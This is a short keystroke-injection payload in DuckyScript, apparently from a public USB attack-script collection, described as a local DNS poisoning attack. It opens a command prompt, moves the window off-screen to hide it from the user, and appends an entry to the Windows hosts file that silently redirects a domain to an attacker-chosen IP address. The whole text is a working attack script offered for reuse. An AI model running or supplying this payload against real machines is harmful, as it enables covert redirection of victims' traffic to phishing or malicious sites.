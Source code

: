 REM The following is a local DNS poisoning attack that changes a hosts 'host' file. The host will then be redirected to the website of your choice (IP Address), every time the user types in the given domain name in their browser. 

REM Author:ashbreeze96 and overwraith
GUI r
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 50
STRING ECHO. >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
DELAY 50
STRING ECHO 10.0.0.1 ADMIN.COM >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
STRING exit
ENTER
